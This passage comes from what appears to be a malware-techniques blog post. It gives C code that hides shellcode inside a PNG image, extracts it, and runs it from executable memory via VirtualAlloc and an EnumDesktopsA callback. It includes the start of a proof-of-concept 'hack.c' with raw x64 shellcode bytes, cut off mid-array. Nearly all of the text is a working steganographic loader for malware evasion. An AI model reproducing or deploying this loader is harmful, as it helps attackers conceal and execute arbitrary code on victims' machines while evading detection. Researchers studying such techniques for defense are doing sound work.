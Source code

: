 ```cpp

  fclose(in);
  printf("payload extracted from PNG successfully! :)\n");
}
```

then just reconstruct the payload in memory and execute extracted payload dynamically, something like this:     

```cpp
int main() {
  const char* input_png = "cat.png";
  const char* output_png = "stego.png";
  unsigned char extracted_payload[MAX_PAYLOAD_SIZE] = {0};

  // hide payload inside PNG
  hide_payload_in_png(input_png, output_png, my_payload, sizeof(my_payload));

  // extract payload from PNG
  extract_payload_from_png(output_png, extracted_payload, sizeof(my_payload));

  printf("decrypted payload: ");
  for (int i = 0; i < sizeof(extracted_payload); i++) {
    printf("%02x ", extracted_payload[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(extracted_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, extracted_payload, sizeof(extracted_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  return 0;
}
```

Finally, the full source code of my PoC `hack.c`:     

```cpp
/*
 * hack.c
 * hiding and extracting payload in PNGs. 
 * Simple C example
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/02/24/malware-tricks-45.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

// simple payload (meow-meow)
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
```
